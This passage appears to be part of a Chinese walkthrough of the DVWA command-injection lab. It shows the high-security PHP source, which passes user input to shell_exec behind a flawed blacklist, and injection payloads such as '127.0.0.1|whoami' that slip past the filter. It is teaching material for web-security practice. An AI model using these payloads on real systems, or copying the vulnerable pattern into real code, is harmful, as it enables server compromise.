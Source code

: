```
127.0.0.1 & whoami
127.0.0.1 | whoami 
127.0.0.1 &;& whoami # 这里过滤了分号,"&;&"也就变成了"&&"
```

以上的`whoami`命令都能够被成功执行

<br>

## High

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);
    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }
    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?> 
```

这里设置了范围更大的黑名单,跟上一题相比多过滤了好多字符,但是注意到这里只是过滤了 "| ",而没有过滤不带空格,或者空格在前的 "|", " |"

```
127.0.0.1 |whoami
127.0.0.1|whoami
```
